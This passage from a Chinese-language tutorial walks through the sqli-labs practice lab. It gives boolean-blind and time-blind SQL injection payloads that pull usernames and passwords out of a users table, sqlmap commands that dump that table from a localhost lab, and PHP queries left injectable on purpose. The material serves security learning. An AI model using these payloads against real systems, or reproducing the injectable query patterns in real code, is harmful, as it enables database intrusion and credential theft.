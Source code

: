 手工

```sql
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>67 %23 # 有回显
?id=1'and ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68 %23 # 无回显
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=B -v 3 -D security -T users --dump --batch
```

**时间盲注**

手工

```sql
?id=1'and if(ascii(substr((select concat(username,password) from users limit 0,1),1,1))>68,1,sleep(5)) %23
```

sqlmap

```bash
$ python sqlmap.py -u "http://localhost:8888/Less-1/?id=1" --technique=T -v 3 -D security -T users --dump --batch
```

#### 3.2.2 Less-2

```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

闭合方式改变。

#### 3.2.3 Less-3

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

闭合方式改变。

#### 3.2.4 Less-4

```php
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

闭合方式改变。

#### 3.2.5 Less-5

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if true
  	echo 'You are in...........';
else 
	print_r(mysql_error());
```
